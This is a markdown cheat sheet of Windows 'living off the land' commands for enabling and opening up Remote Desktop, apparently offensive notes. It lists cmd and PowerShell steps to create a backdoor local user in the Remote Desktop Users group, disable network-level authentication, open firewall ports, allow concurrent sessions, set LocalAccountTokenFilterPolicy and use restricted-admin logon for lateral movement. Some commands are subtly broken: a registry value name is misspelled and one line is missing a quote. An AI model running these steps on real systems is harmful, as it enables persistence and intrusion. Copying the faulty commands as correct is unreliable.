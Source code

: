 # Living off the Land

## 01 - Enable RDP Server

```
C:\> sc.exe config termservice start=auto
```

To start Remote Desktop Service

```
C:\> net.exe start termservice
```

To stop Remote Desktop Service

```
C:\> net.exe stop termservice
```

## 02 - Enable with Registry

### 2.1 - Choose any of the three options

#### 2.1.1 - Automatic

```
C:\> reg.exe add hklm\system\currentcontrolset\services\termservice /v Start /t REG_DWORD /d 2 /f

PS C:\> Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\Termservice" -Name "Start" -Type DWord -Value 2
```

#### 2.1.2 - Manual

```
C:\> reg.exe add hklm\system\currentcontrolset\services\termservice /v Start /t REG_DWORD /d 3 /f

PS C:\> Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\Termservice" -Name "Start" -Type DWord -Value 3
```

#### 2.1.3 - Disabled

```
C:\> reg.exe add hklm\system\currentcontrolset\services\termservice /v Start /t REG_DWORD /d 4 /f

PS C:\> Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\Termservice" -Name "Start" -Type DWord -Value 4
```

### 2.2 - Create user and add it to the RDP users group

^1f2bd0

```
C:\> net.exe user <username> <password> /add & net localgroup "Remote Desktop Users" <username> /add

PS C:\> Add-LocalGroupMember -Group "Remote Desktop Users" -Member <username>
```

### 2.3 - Ports for the RDP port

#### 2.3.1 - Command Prompt

```
C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List" /v 3389:TCP /t REG_SZ /d "3389:TCP:*:Enabled:Remote Desktop" /f

C:\> reg.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f

C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Licensing Core" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f
```

#### 2.3.2 - Powershell

```
PS C:\> Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -Name "PortNumber" -Type DWord -Value <PORT>

PS C:\> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Type DWord -Value 0
```

### 2.4 - Set a firewall rule

#### 2.4.1 - Command Prompt

```
C:\> netsh.exe firewall set service type=remotedesktop mode=enabled

C:\> netsh.exe advfirewall firewall set rule group="remote desktop" new enable=yes
```

#### 2.4.2 - Powershell

```
PS C:\> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

PS C:\> New-NetFirewallRule -DisplayName 'RDPPORTLatest' -Profile 'Public' -Direction Inbound -Action Allow -Protocol TCP -LocalPort 21390
```

### 2.5 - Disable Admin Restriction

#### 2.5.1 - Command Prompt

```
C:\> reg.exe add "HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestricedAdmin /t REG_DWORD /d 0 /f
```

#### 2.5.2 - PowerShell

```
PS C:\> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Lsa' -Name "DisableRestricedAdmin" -Type DWord -Value 0
```

### 2.6 - Login RDP

Useful for lateral movement

```
C:\> mstsc.exe /v:<IP> [/restrictedadmin]
```

TODO: Figure it out what each of these registry values and subkey does.

```
C:\> reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f

C:\> reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AllowMultipleTSSessions /t REG_DWORD /d 1 /f

C:\> reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 100 /f

C:\> reg.exe add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\SYSTEM" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

```
PS C:\> Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' -Name "EnableConcurrentSessions" -Type DWord -Value 1

PS C:\> Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' -Name "AllowMultipleTSSessions" -Type DWord -Value 1

PS C:\> Set-ItemProperty -Path 'HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services' -Name "MaxInstanceCount" -Type DWord -Value 100

PS C:\> Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\SYSTEM' -Name "LocalAccountTokenFilterPolicy" -Type DWord -Value 1
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [TakeMyRDP2.0](https://github.com/nocerainfosec/TakeMyRDP2.0)

- [FAS Data Security Compliance Program: Russian Government Cyber Activity Targeting Energy and Other Critical Infrastructure Sectors](https://datasecurity.ucsf.edu/news/russian-government-cyber-activity-targeting-energy-and-other-critical-infrastructure-sectors)